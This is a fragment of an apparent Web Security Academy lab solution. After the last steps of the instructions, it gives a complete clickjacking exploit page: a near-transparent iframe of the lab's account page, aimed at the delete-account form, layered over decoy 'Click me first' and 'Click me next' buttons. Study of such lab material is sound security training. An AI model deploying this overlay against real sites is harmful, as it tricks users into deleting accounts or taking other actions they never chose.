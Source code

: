					</li>
					<li>
						Now click on <strong>Deliver exploit to victim</strong> and the lab should be solved.
					</li>
				</ol>
            </div>
        </div>

exploit

```html
<style>
	iframe {
		position:relative;
		width:700px;
		height: 500px;
		opacity: 0.1;
		z-index: 2;
	}
    .firstClick, .secondClick {
		position:absolute;
		top:435px;
		left:50px;
		z-index: 1;
	}
    .secondClick {
		top:300px;
		left:210px;
	}
</style>
<div class="firstClick">Click me first</div>
<div class="secondClick">Click me next</div>
<iframe src="https://0a3400bb031cd39dc0c806b3003a00d2.web-security-academy.net/my-account#delete-account-form"></iframe>
```

